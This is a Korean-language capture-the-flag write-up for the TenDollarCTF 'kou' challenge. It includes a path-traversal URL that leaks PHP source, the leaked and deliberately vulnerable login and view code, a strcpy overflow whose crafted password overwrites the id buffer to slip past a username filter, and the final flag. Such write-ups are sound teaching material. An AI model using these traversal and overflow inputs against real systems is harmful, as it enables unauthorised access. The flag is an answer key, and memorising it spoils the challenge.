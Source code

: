 # TenDollarCTF 3rd - kou

## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

문제 페이지에 들어가면 4개의 메뉴가 존재합니다. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

각각의 메뉴들은 p파라미터로 페이지가 로드됩니다.

`http://web2.tendollar.kr:10101/?p=home`

p 파라미터에다가 php wrapper나 ../와 같은 문자열이 들어갔을때 전부 home으로 이동합니다.

또한 위의 메뉴들을 제외하면 전부 home으로 이동하는 걸로 봐서 whitelist 방식으로 페이지를 로드하는 것 같습니다.

Article메뉴에 들어가면 Secret Data라는 글이 있습니다.

이를 읽으면 You're not admin.이라는 글과 함께 내용이 나오지 않습니다.

글을 요청할때 f 파라미터로써 요청되는 것을 확인할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f 파라미터에 ./, ../를 넣어보면 LFI 취약점이 발생하는 것을 알 수 있으며 이를 통해 index.php와 같은 소스코드를 Leak할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

위에 pageList중 중요해 보이는 loginchk를 우선적으로 Leak해보자.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

소스코드를 보면 kou라는 아이디로 로그인이 막혀있는 것을 알 수 있습니다.

그리고 login할때 **login** 함수를 통해 id, pw를 검증하는 것 같은데, 이 함수는 기본 함수가 아니다.

아마 다른 모듈을 통해 해당 함수를 수행하는 것 같다.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

다음으로 view.php를 보면 f로 입력받은 값을 **loadFile**을 통해 내용을 페이지에 뿌려주는 것 같습니다.

**loadFile** 또한 기본 함수가 아니라 다른 모듈에 정의된 함수처럼 보입니다.

f로 kou.so를 요청하면 `loadFile`이나 `login`함수를 가지고 있는 **kou.so**파일을 줍니다.

열어봅시다.

![](./img1.png)

먼저 **loadFile**함수는 fopen을 통해 파일을 여는 함수입니다.

별로 특이한 건 보이지 않으니 **login** 함수를 봅니다.

![](./img2.png)

입력 받은 값을 **loginchk** 함수를 통해 검증합니다.

![](./img3.png)

**loginchk**함수에서는 id과 pw를 비교하여 값이 같을 때 True를 리턴합니다.

하지만 id는 kou이면서 pw는 1e0c6abede7ff7184c3cefe606f9760a이어야 하는데, loginchk.php에서는 id가 kou가 들어가면 안됩니다.

이 문제의 취약점은 login에 있습니다.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

strcpy를 통해 입력받은 값을 각각 \_id, \_pw를 넣어 놓습니다.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

\_id와 \_pw의 스택을 보면 _pw다음에 _id가 오는것을 볼 수 있습니다.

strcpy를 통해 id를 입력받고 그 후에 pw를 복사합니다만, strcpy는 문자열의 길이를 검사하지 않고 복사합니다.

pw로써 1e0c6abede7ff7184c3cefe606f9760akou를 넣으면 _id에는 kou, _pw는 1e0c6abede7ff7184c3cefe606f9760a가 들어가 정상적으로 로그인 됩니다.

즉, pw를 이용해 overflow를 일으켜 id에 kou를 넣는 것이 가능합니다.

이제 페이지에 로그인할 때 id=a, pw=1e0c6abede7ff7184c3cefe606f9760akou를 넣어주면 로그인에 성공하게 됩니다.

로그인 후에 Article로 이동하여 Secret Data를 읽으면 Flag를 얻을 수 있습니다.

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

